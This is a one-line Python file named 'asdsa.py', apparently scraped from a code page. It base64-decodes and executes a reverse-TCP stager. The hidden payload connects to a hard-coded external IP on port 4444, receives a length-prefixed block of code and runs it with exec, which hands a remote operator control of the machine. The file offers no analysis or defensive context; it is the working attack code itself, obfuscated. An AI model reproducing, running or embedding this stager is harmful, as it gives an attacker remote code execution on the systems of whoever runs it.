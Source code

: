 # asdsa.py
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCc3OC4xOTAuMTQ0LjEzMicsNDQ0NCkpCmw9c3RydWN0LnVucGFjaygnPkknLHMucmVjdig0KSlbMF0KZD1zLnJlY3YobCkKd2hpbGUgbGVuKGQpPGw6CglkKz1zLnJlY3YobC1sZW4oZCkpCmV4ZWMoZCx7J3MnOnN9KQo=')))
